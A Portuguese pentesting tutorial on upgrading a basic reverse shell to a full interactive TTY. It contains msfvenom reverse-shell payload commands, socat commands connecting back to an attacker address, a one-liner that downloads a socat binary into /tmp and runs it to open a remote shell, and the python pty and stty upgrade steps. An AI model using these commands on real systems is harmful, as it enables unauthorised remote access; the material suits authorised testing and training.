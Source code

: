 ```yaml
---
title: Upgrading Shells
categories: [Tutorial]
tags: [comandos, linux, utilitário, shell, tty, bash]
date: 2025-03-30T14:32:00r
render_with_liquid: false
---
```


# 🖥️ ** Programas com Shells comuns **

> 📌 **Descrição:**  
> Quando pegamos uma Reverse Shell simples, nem todos os recursos ficam liberados e disponíveis. Isto faz com que os demais processos relacionados ao Pentest demorem mais. Alguns dos recursos limitados são:
> - STDERR não é mostrado
> - Não é possível usar VIM
> - Comandos como `su` ou `ssh` não são acessíveis
> - Sem controle sobre histórico, tab-complete, etc

---

## 📂 **1. Gerando uma Reverse Shell com msfvenom

#### 1.1. Gerando reverse com Netcat

```bash
msfvenom -p cmd/unix/reverse_netcat LHOST=10.0.3.4 LPORT=4444 R
```

#### 1.2. Gerando reverse com Perl

```bash
msfvenom -p cmd/unix/reverse_perl LHOST=10.0.3.4 LPORT=4444 R
```

---
# 🐚 2. Upgrading Shell

#### 2.1. Upgrading Shell com Python

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

#### 2.2. Upgrading Shell com Socat

Na máquina Kali:

```bash
socat file:`tty`,raw,echo=0 tcp-listen:4444
```

Na máquina alvo:

```bash
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```

Se o `socat` não estiver instalado, podemos tentar executar o upgrade enquanto baixamos o `socat` pelo github

```bash
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```

#### 2.3. Upgrading Shell com Netcat/Magic

Comaçamos chamando um PTY como no primeiro comando, mas deixamos ele em segundo plano usando o `CTRL+Z`

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

Agora, vamos visualizar as configurações atuais do STTY para que consigamos deixar ambos estejam equivalentes

```bash
echo $TERM
stty -a
```

Enquanto o STTY ainda está em background, vamos definir a STTY atual para `raw`

```bash
stty raw -echo
```

agora execute os dois comandos

```bash
fg
reset
```

por final, fazendo o STTY que voltou com o `fg` equivaler ao STTY do Kali

```bash
export SHELL=bash
export TERM=xterm256-color
stty rows 38 columns 116
```

Em resumo:

```bash
# In reverse shell
python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z

# In Kali
stty raw -echo
fg

# In reverse shell
reset
export SHELL=bash
export TERM=xterm-256color
stty rows <num> columns <cols>
```

---
